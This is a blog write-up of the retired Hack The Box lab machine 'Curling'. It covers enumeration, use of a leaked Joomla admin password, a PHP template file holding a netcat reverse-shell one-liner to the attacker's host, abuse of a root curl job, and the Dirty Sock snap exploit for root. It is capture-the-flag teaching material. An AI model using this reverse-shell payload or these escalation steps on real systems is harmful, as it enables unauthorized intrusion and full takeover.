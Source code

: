 ```yaml
---
layout: post
title: Hack The Box - Curling
categories: hack-the-box
image: /hackthebox/curling/0.png
---
```

### Quick Summary
#### Hey guys today Curling retired and here is my write-up about it. I had a lot of fun doing this box as it was easy and simple. Also it was straightforward , no rabbit holes and such things. It's a linux box and its ip is `10.10.10.150` I added it to `/etc/hosts` as `curling.htb`. Let's jump right in !
![](/images/hackthebox/curling/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC curling.htb`
![](/images/hackthebox/curling/1.png)
#### We only get 2 open ports , 80 running http and 22 running ssh. Let's look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/curling/2.png)
#### We see a blog titled "Cewl Curling site!" , and it's [joomla](https://www.joomla.org/). At this point I would run `joomscan` but I wanted to do some manual enumeration first , so I checked the source of the page and at the end of the body I found this comment :
![](/images/hackthebox/curling/3.png)
#### So I checked `/secret.txt` and found this `base64` string :
![](/images/hackthebox/curling/4.png)
#### Decoding :
![](/images/hackthebox/curling/5.png)
#### `Curling2018!` we can use that as a password. But what is the username ? If we take a look at the main page again and read the posts :
![](/images/hackthebox/curling/6.png)
#### We will notice a name in one of the posts : `Floris` , now we can try to login as `floris` with the password `Curling2018!` :
![](/images/hackthebox/curling/7.png)
<br>
<br>
![](/images/hackthebox/curling/8.png)
#### And it worked. While I was doing this enumeration I ran gobuster in the background and got these results :
```
/.htpasswd (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htaccess (Status: 403)
/bin (Status: 301)
/cache (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
#### Let's go to `/administrator` and login to the administration panel :
![](/images/hackthebox/curling/9.png)
<br>
<br>
![](/images/hackthebox/curling/10.png)
<br>
<br>
![](/images/hackthebox/curling/11.png)
<hr>
### Editing Template Files and Getting a Reverse Shell :
#### On the configuration section there's an option for templates :
![](/images/hackthebox/curling/12.png)
#### By going to that we notice that protostar is the default style and template :
![](/images/hackthebox/curling/13.png)
<br>
<br>
![](/images/hackthebox/curling/14.png)
#### From templates we will go to `Protostar Details and Files` and create a new `php` file :
![](/images/hackthebox/curling/15.png)
<br>
<br>
![](/images/hackthebox/curling/16.png)
#### In the php file we will execute a system command to get a reverse shell :
```
<?php
    system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f');
?>
```
![](/images/hackthebox/curling/17.png)
#### After we save the file we will go to `http://curling.htb/templates/protostar/file.php`
![](/images/hackthebox/curling/18.png)
#### Then we check our listener :
![](/images/hackthebox/curling/19.png)
<hr>
### User
#### We got a reverse shell as `www-data` , in the `/home` directory there's a directory for `floris` :
![](/images/hackthebox/curling/20.png)
#### We don't have read access to `user.txt` , but we notice a file called `password_backup` , by looking at that file :
![](/images/hackthebox/curling/21.png)
#### It's a `hex dump` file , So I copied it to my box to reverse it :
![](/images/hackthebox/curling/22.png)
#### To reverse a `hex dump` file we will use `xxd` , so `xxd -r pw_backup` :
![](/images/hackthebox/curling/23.png)
#### Not a normal output , let's redirect the output to a file and see :
![](/images/hackthebox/curling/24.png)
#### So what happened is , it turned out to be a `bzip2` file so I decompressed it then got a new `gzip` file , decompressed it and got another `bzip2` file , after decompression I got a `tar` file , then finally a `txt` file for the password :
![](/images/hackthebox/curling/25.png)
#### Let's `ssh` as `floris` :
![](/images/hackthebox/curling/26.png)
#### And we owned user !
<br>
<hr>
### Curling 
#### By looking at the `/home` directory of `floris` again :
![](/images/hackthebox/curling/27.png)
#### There's a directory called `admin-area` which contains two files :
![](/images/hackthebox/curling/28.png)
#### `input` and `report`
#### `input` :
![](/images/hackthebox/curling/29.png)
#### `url = "http://127.0.0.1"`
#### `report` :
![](/images/hackthebox/curling/30.png)
#### It's obvious that this is the output of executing `curl` on `http://127.0.0.1` :
![](/images/hackthebox/curling/31.png)
#### Even the name of the box is a hint `curling` , so what about changing that `url` from `localhost` to something else like a file ? Next time the command gets executed we will get the contents of that file , maybe `root.txt` ? But only if it's getting executed by `root`. Let's try and see if it will work :
![](/images/hackthebox/curling/32.png)
#### Then we will do : `watch cat report` , this is executing `cat report` every 2 seconds and giving us the output , easier than checking manually :
![](/images/hackthebox/curling/33.png)
#### After some time we get the flag.
<br>
<hr>
### Dirty Sock ? Root shell !
#### I didn't like the fact that I could only read the flag , I wanted a `root` shell. So I tried for a long time to bypass the `url` thing and get a reverse shell , but couldn't. Then when I did this box again for the write-up , one of the things that caught my attention is that we are on an `ubuntu` box , so I checked `snap` version to know if it's vulnerable to `CVE-2019-7304` known as `Dirty Sock` and of course it was :
![](/images/hackthebox/curling/34.png)
#### This is not intended at all because by the time this box was released ,  `CVE-2019-7304` wasn't disclosed yet.
#### I got the exploit from [here](https://github.com/initstring/dirty_sock) , Then hosted it on a python simple http server and downloaded it on the box :
![](/images/hackthebox/curling/35.png)
`python3 dirty_sockv2.py`
![](/images/hackthebox/curling/36.png)
#### Now we can `su` to `dirty_sock` and execute commands as root :
![](/images/hackthebox/curling/37.png)
#### Or just `sudo su` and we will get a root shell :
![](/images/hackthebox/curling/38.png)
#### We owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Frolic](/hack-the-box/frolic/)
<hr>
